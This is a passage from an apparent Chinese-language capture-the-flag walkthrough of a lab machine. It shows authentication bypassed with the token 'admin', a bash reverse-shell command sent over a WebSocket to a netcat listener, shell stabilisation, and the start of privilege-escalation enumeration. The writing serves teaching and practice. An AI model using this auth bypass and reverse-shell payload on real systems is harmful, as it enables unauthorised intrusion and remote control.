 成功！使用"admin"作为token可以绕过认证，获得命令执行权限。

# 四、反向Shell

## 获取初始Shell

在Kali上启动监听：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
```

通过WebSocket发送反向Shell命令：

```bash
> {"token": "admin", "command": "bash -c '/bin/bash -i >& /dev/tcp/192.168.205.128/8888 0>&1'"}
```

成功获得反向连接：

```bash
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.179] 60100
bash: cannot set terminal process group (350): Inappropriate ioctl for device
bash: no job control in this shell
caidao@Wushu:/root$ id
uid=1000(caidao) gid=1000(caidao) groups=1000(caidao)
```

## Shell稳定化

使用标准方法稳定化Shell：

```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 36 columns 178
```

# 五、权限提升

## 用户信息收集

查看当前用户主目录：

```bash
caidao@Wushu:~$ ls -al
total 864
drwxr-xr-x 3 caidao caidao   4096 Aug 18 10:02 .
drwxr-xr-x 3 root   root     4096 Aug 18 09:33 ..
lrwxrwxrwx 1 root   root        9 Aug 18 09:45 .bash_history -> /dev/null
...
-rw-r--r-- 1 caidao caidao 848400 Feb 19  2024 lin.sh
-rw-r--r-- 1 root   root       44 Aug 18 09:33 user.txt
...
```
